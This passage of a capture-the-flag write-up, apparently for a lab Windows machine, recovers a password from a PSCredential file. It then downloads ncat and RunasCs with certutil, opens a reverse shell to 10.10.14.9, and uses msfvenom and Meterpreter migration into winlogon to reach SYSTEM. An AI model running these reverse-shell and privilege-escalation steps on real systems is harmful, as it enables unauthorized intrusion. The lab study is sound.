      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000cdfb54340c2929419cc739fe1a35bc88000000000200000000001066000000010000200000003b44db1dda743e1442e77627255768e65ae76e179107379a964fa8ff156cee21000000000e8000000002000020000000c0bd8a88cfd817ef9b7382f050190dae03b7c81add6b398b2d32fa5e5ade3eaa30000000a3d1e27f0b3c29dae1348e8adf92cb104ed1d95e39600486af909cf55e2ac0c239d4f671f79d80e425122845d4ae33b240000000b15cd305782edae7a3a75c7e8e3c7d43bc23eaae88fde733a28e1b9437d3766af01fdf6f2cf99d2a23e389326c786317447330113c5cfa25bc86fb0c6e1edda6</SS>
    </Props>
  </Obj>
</Objs>

```

To recover the original password, from a PSCredential object, the procedure is very simple. Credits:
- [https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8](https://systemweakness.com/powershell-credentials-for-pentesters-securestring-pscredentials-787263abf9d8)
- [https://jatinpurohit.wordpress.com/2020/04/08/decrypt-pscredential-object-password-and-its-applications/](https://jatinpurohit.wordpress.com/2020/04/08/decrypt-pscredential-object-password-and-its-applications/)


The password of the user "alaading" is "f8gQ8fynP44ek1m3". RunAsCs and netcat were uploaded to obtain a shell with user "alaading".

```shell
PS C:\Users\sfitz\Documents> cd C:\
PS C:\> mkdir tmp


    Directory: C:\


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        2/20/2024   9:14 AM                tmp                                                                   


PS C:\> cd tmp
PS C:\tmp> certutil -urlcache -f http://10.10.14.9/ncat.exe ncat.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> certutil -urlcache -f http://10.10.14.9/RunasCs.exe RunasCs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> ls


    Directory: C:\tmp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        2/20/2024   9:14 AM        1837568 ncat.exe                                                              
-a----        2/20/2024   9:14 AM          51712 RunasCs.exe
PS C:\tmp> .\RunasCs.exe alaading f8gQ8fynP44ek1m3 "C:\tmp\ncat.exe 10.10.14.9  4444 -e cmd.exe" -t 0

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-67512$\Default
[+] Async process 'C:\tmp\ncat.exe 10.10.14.9  4444 -e cmd.exe' with pid 2496 created in background.
```

***user.txt***: 9d43030506a3716ade233dbf53706dff


I am "alaading". It's time to privesc.

```shell
C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name    SID                                          
============ =============================================
pov\alaading S-1-5-21-2506154456-4081221362-271687478-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users      Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE             Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeDebugPrivilege              Debug programs                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

"alaading" user has "SeDebugPrivilege" privilege. This is can be very dangerous. From [https://notes.morph3.blog/windows/privilege-escalation/sedebugprivilege](https://notes.morph3.blog/windows/privilege-escalation/sedebugprivilege), you make the acquaintance of [https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem). This is a script that allows you to get a shel with SYSTEM privileges when you enjoy the "SeDebugPrivilege" privilege. The idea is to use the script to run an executable with allows a reverse shell.

A payload is generated with msfvenom.

```shell
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o sh.exe         
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: sh.exe
```

Then you upload the executable file along with the "psgetsys.ps1" script.

```shell
PS C:\tmp> certutil -urlcache -f http://10.10.14.9/psgetsys.ps1 psgetsys.ps1
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\tmp> certutil -urlcache -f http://10.10.14.9/sh.exe sh.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

The script requires the PID of a process that is running with SYSTEM privileges, such as "winlogon."

```shell
PS C:\tmp> Get-process winlogon
Get-process winlogon

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    305      15     5232      19200       0.27    556   1 winlogon
```

The exploit works, but unfortunately the shell closes immediately.


After several hours of blocking, it was decided to read a hint.

As it is [reported](https://malwaretips.com/threads/razy-ransomware-small-insight.88877/) very often, "*SeDebugPrivilege allows you to open ANY process on the system, ignoring any ACLs or user restrictions, and "debug" it. Which includes abilities to inject and execute code in those other processes. So you can just "debug" a process with higher privileges, inject your code in there and you run your code using those higher privileges*".

One of the possible ways in which the privilege can be exploited is to *migrate* into one of the privileged processes. Meterpreter offers the functionality to migrate to privileged processes, provided you have "SeDebugPrivilege" privilege. More details can be had with [https://security.stackexchange.com/questions/90578/how-does-process-migration-work-in-meterpreter](https://security.stackexchange.com/questions/90578/how-does-process-migration-work-in-meterpreter) and [https://jlajara.gitlab.io/process-migration](https://jlajara.gitlab.io/process-migration). The strategy then is to obtain a Meterpreter shell and then use the "migrate" post-exploitation feature to migrate to a running process with SYSTEM privileges.

The first thing to do is to generate an executable to get a Meterpreter shell.

```shell
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o meter.exe       
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: meter.exe
```

The executable is then transferred to the target. Before running the binary, a Meterpreter handler is activated.

```shell
$ msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0;set LPORT 4444;run;"
[...]
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
LHOST => tun0
LPORT => 4444
[*] Started reverse TCP handler on 10.10.14.9:4444
```

At this point you run the Meterpreter binary directly and you will receive a meterpreter shell.


Meterpreter confirms that you have a shell with "alaading" user and you have "SeDebugPrivilege" privilege.

```shell
meterpreter > getuid
Server username: POV\alaading
meterpreter > run windows/gather/win_privs

Current User
============

 Is Admin  Is System  Is In Local Admin Group  UAC Enabled  Foreground ID  UID
 --------  ---------  -----------------------  -----------  -------------  ---
 False     False      False                    False        1              POV\alaading

Windows Privileges
==================

 Name
 ----
 SeChangeNotifyPrivilege
 SeDebugPrivilege
 SeIncreaseWorkingSetPrivilege
```

Now we need to locate the PID of a privileged process, such as winlogon.exe.

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User          Path
 ---   ----  ----               ----  -------  ----          ----
 0     0     [System Process]
 4     0     System             x64   0
 88    4     Registry           x64   0
 300   4     smss.exe           x64   0
 340   628   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 384   376   csrss.exe          x64   0
 488   376   wininit.exe        x64   0
 496   480   csrss.exe          x64   1
 556   480   winlogon.exe       x64   1                      C:\Windows\System32\winlogon.exe
 624   628   svchost.exe        x64   0                      C:\Windows\System32\svchost.exe
 628   488   services.exe       x64   0
 652   488   lsass.exe          x64   0                      C:\Windows\System32\lsass.exe
[...]
```

The PID of the winlogon.exe process is 556. Now, you simply migrate to that process.

```shell
meterpreter > migrate 556
[*] Migrating from 3080 to 556...
[*] Migration completed successfully.
meterpreter > shell
Process 5008 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Simply SYSTEM.

***root.txt***: 9dce473ff4887456521f42b69dcc4d60


